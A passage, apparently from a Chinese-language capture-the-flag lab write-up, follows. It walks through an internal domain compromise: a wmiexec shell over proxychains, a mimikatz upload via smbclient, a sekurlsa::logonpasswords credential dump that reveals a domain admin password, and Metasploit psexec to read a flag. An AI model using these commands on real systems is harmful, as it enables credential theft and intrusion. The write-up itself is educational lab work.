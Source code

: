 在我的kali环境下首次运行报错，提示没有impacket.example这个模块，但是使用pipinstall时又提示存在impacket，需要手动将python目录下的impacket替换为github项目中的impacket,之后便可成功运行

![image-20210510132919876](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210510132919876.png)

在成功配置ew和proxychain并运行wmiexec后成功返回一个shell

![image-20210510133127209](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210510133127209.png)

之后开始信息收集

![image-20210510134916960](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210510134916960.png)

一般可执行上述指令，有些执行失败

![image-20210510133405255](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210510133405255.png)

找到域控ip

![image-20210510134849502](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210510134849502.png)

发现Test域的进程，可以尝试抓密码

![image-20210510134413519](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210510134413519.png)



使用smbclient经过代理上传mimikatz到08

https://github.com/gentilkiwi/mimikatz/releases

```
proxychains smbclient //192.168.93.20/C$ -U administrator
put mimikatz.exe
```

![image-20210510135534027](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210510135534027.png)

wmic远程执行mimikatz成功得到域管理员密码 zxcASDqw123!!

```
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > log.log
```

![image-20210510135748809](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210510135748809.png)



之后使用msf的psexec模块执行指令，读取192.168.93.10上的flag，command处可随意设置

![image-20210510150352468](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210510150352468.png)

![image-20210510150430846](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210510150430846.png)



读到flag

![image-20210510150606869](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210510150606869.png)
